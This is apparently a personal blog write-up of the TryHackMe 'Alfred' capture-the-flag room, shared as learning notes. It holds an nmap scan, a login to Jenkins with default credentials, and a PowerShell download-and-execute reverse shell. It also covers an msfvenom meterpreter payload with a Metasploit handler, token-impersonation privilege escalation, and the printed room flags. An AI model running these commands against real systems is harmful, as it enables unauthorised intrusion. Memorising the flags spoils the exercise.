 ```yaml
---
title: THM Room Walkthrough - Alfred
date: '2025-01-22 21:35:00 +0000'
author: b3rdma
categories: [Hacking, Try Hack Me]
tags: [nmap, enumeration, privilege escalation, reverse shell, metasploit]
media_subpath: /img/alfred/
---
```


<!-- toc:start -->

- [Task 1 - Initial Access](#task-1---initial-access)
  * [Initial Recon - NMAP Scan Results](#initial-recon---nmap-scan-results)
  * [Enumeration](#enumeration)
- [Task 2 - Switching Shells](#task-2---switching-shells)
- [Task 3 - Privilege Escalation](#task-3---privilege-escalation)

<!-- toc:end -->

## Task 1 - Initial Access

First things first, lets do a full nmap scan to see what is open on the target.
I used the following command to scan the target:

```bash
sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
```
{: .nolineno }

## Initial Recon - NMAP Scan Results

```bash

┌──(zed   kali)-[~/hacking/thm/rooms/alfred]
└─|||> sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 12:54 GMT
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.131.95, 16) => Protocol wrong type for socket
Offending packet: TCP 10.11.121.104:56714 > 10.10.131.95:53 S ttl=46 id=1811 iplen=11264  seq=3598359036 win=1024 <mss 1460>
Nmap scan report for 10.10.131.95
Host is up (0.038s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-01-18T12:49:06
|_Not valid after:  2025-07-20T12:49:06
|_ssl-date: 2025-01-19T13:41:17+00:00; -16s from scanner time.
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2824.03 seconds

```
{: .nolineno }

## Enumeration

- First went to 10.10.255.69:8080 and was presented with the Jenkins login page
- Tried default `admin:admin` for username and password and that logged me in to
  back-end (default credentials for Jenkins found via search)
- In the project config page we see execution of batch commands is enabled
- Change the `whoami` default command with:

```powershell
powershell iex (New-Object
Net.WebClient).DownloadString('http://10.11.121.104:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
-Reverse -IPAddress 10.11.121.104 -Port 4444
```
{: .nolineno }

- Save the project and then build it so it runs the payload
- Make sure to have the following two commands running on attack machine:

```bash
python3 - http.server
```
{: .nolineno }

```bash
nc -nvlp 4444
```
{: .nolineno }

- Had issues with getting the `nc` command to work on MacOS so booted up Kali
- Worked great once build of the project started on Kali; reverse shell sorted. 
- Had to search about a bit to find the flag at `C:\Users\bruce\Desktop\user.txt`
- Flag is: `79007a09481963edf2e1321abd9ae2a0`

## Task 2 - Switching Shells

The instructions on this part of the room are quite self-explanatory; however,
the steps I took are as follows:

- Use the `msfvenom` command to generate a payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata -e x86/shikata_ga_nai LHOST=10.11.121.104 LPORT=4443 -f exe -o revShell.exe
```
{: .nolineno }

- Once that is done, uploading to the target machine is the next step. In the
shell we already have, run the command 
`powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.11.121.104/revShell.exe','revShell.exe')"`
- This is now ready to use on the target, but first we need to set up Metasploit
  to listen in to it as we are using a meterpreter.
- There is a one-liner on the THM Room page that can be used but I opened
Metasploit the old way and set the required parameters; the commands listed
below in order of execution:

```bash
msfconsole
use exploit/multi/handler
set LOST 10.11.121.104
set LPORT 4443
set PAYLOAD windows/meterpreter/reverse_tcp
run
```
{: .nolineno }

- Once the meterpreter handler connects, use the command `shell` to now have the
  Windows Cmd shell prompt. 
- To answer the question in Task 2, simply run `dir` and look at the file size
(in bytes) of revShell.exe.

## Task 3 - Privilege Escalation

The Task 3 questions are pretty guided by the instructions so here I shall just
add a few screenshots of the results:

![whoami/priv command on kali
linux](20250124-alfred-whoami-priv.webp){: width="700"
height="400" }
_Execution of the `whoami/priv` command_

The next step instructs us to enter `load incognito` and follow that up with
`list_tokens -g`. See screenshot below for results:

![load incognito Meterpreter command on kali
linux](20250124-alfred-load-incognito.webp){: width="700"
height="400" }
_Execution of the `load incognito` Meterpreter command_

The observant will note that I have also run the commands `getuid` and
`impersonate_token "BUILTIN\Administrators"`; The output shows that initially we
were `alfred\bruce`. Not in the screenshot (sorry) is the output from running
the `getuid` command afterwards which will be `NT AUTHORITY\SYSTEM`.

Final steps are to get the process ID of services.exe, migrate to that process
and gain root privileges. Output of the `ps` command below:

![ps command on kali
linux](20250124-alfred-ps-command.webp){: width="700"
height="400" }
_Execution of the `ps` command_

Now we have found the PID we want, run the command `migrate <PID>`, in my case
it was `migrate 668`, and wait for the success message. Root is ours. Final
question answered by `cat`'ing the root.txt file. Location is given which is
nice 🙂. 

![cat and type command on kali
linux](20250124-alfred-final-flag.webp){: width="700"
height="400" }
_Execution of the `cat` command_

> The output from `cat` looked kind of strange to me so I entered shell and used
> `type root.txt` to confirm that the flag was correct. All shown in the
> screenshot but wanted to clarify just in case.
{: .prompt-info }

So that is Alfred completed. I hope this was helpful, informative and possibly
even interesting. Feedback is always welcome but please do view this in the
context that these are basically my learning notes. Definitely let me know if
there are errors, especially in relation to techniques/tools used. 

Thank you and Godspeed. 
